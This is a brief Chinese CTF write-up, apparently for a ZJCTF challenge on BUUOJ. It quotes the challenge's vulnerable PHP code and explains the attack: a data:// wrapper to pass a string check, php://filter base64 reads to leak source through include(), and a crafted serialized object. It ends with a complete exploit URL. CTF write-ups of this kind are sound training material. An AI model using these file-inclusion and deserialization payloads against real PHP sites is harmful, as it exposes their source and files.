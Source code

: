 感觉PHP还是学少了:sob:

先审计源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

text利用data协议就可以，然后可以用include()函数读取源码（这一点没想到）php://filter/read=convert.base64-encode/resource=[*文件*名]，然后即再构造序列化对象即可

payload

```shell
http://30f04918-2bb4-43da-9e3d-5a3313311db9.node4.buuoj.cn:81/?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}
```

